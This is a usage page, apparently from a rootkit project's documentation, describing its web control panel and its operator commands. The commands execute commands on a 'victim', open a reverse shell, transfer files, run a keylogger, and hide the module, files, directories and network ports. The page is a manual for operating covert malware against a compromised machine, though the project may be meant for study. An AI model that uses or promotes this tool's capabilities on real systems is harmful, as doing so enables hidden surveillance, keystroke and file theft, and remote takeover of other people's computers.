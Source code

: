 # Usage
\tableofcontents

The rootkit can be used either through command line or via the integrated graphical interface. This page describes the available commands and web interface features.

> To fully benefit from this section, please ensure the setup was performed correctly as described in the [Setup](03_install.md) section.

## 🌐 Web Interface

The web interface provides an intuitive way to control the rootkit. Access it at http://192.168.100.2:5000/

### Features

- **Dashboard**: System information, resource monitoring
- **Terminal**: Execute remote commands
- **File Explorer**: Browse and transfer files
- **Keylogger**: Capture and view keystrokes

## 📜 Command List

For detailed command documentation, refer to the French version or the inline help system.

### Basic Commands

- `connect [PASSWORD]` - Authenticate to the rootkit
- `disconnect` - Close connection
- `ping` - Test connectivity
- `exec [COMMAND]` - Execute command on victim
- `getshell [PORT]` - Open reverse shell

### File Operations

- `download [PATH]` - Download file from victim
- `upload [PATH] [SIZE]` - Upload file to victim

### Keylogger

- `klgon` - Enable keylogger
- `klgoff` - Disable keylogger  
- `klg` - Retrieve captured keystrokes

### Module Management

- `hide_module` - Hide rootkit module
- `unhide_module` - Unhide rootkit module

### Hooks System

- `hooks hide [PATH]` - Hide file/directory
- `hooks unhide [PATH]` - Unhide file/directory
- `hooks forbid [PATH]` - Block access to file/directory
- `hooks unforbid [PATH]` - Unblock access
- `hooks modify [PATH] [OPTIONS]` - Modify file content dynamically
- `hooks add_port [PORT]` - Hide network port
- `hooks remove_port [PORT]` - Unhide network port

<img 
  src="logo_no_text.png" 
  style="
    display: block;
    margin: 100px auto;
    width: 30%;
    overflow: hidden;
  "
/>

<div class="section_buttons">

| Previous                          | Next                               |
|:----------------------------------|-----------------------------------:|
| [Setup](03_install.md)       |[Environment](05_env.md)          |
</div>
